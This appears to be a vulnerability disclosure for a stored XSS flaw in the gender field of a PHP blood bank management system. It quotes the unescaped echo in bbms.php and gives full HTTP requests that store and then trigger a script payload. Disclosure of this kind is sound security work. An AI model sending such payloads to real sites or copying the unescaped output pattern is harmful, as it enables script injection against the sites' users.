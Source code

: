 # blood-bank-system-in-php $gender parameter xss.

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

bbms.php via the $gender parameter.

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

XSS vulnerability

## **Description of the vulnerability**

## $gender parameter

Retrieve the value of $gender parameter and echo the content to the foreground. If blood name is xss code, it will cause code execution.

```
     $gender = $rows['gender'];
    echo "<td>$gender</td>";
```

![image-20241003235511090](https://github.com/user-attachments/assets/d3dafc4a-3e03-40e2-b03f-61a4c9638045)

## **Vulnerability recurrence**

### **POC**

Just need to execute the POC and insert the xss code into the database

```
POST /don.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/don.php
Cookie: PHPSESSID=0ci9v3uj72cq2svdhvu3cl6nuh
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fullname=4&phno=1&gender=%3Cscript%3Ealert%28%22genderxss%22%29%3B%3C%2Fscript%3E
```

### Result

We can trigger the XSS vulnerability that was just inserted by accessing  bbms.php to echo gender parameter values. 

```
GET /bbms.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=0ci9v3uj72cq2svdhvu3cl6nuh
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

![image-20241003235749505](https://github.com/user-attachments/assets/4c408e20-25e4-48ac-937c-d450daa54f4a)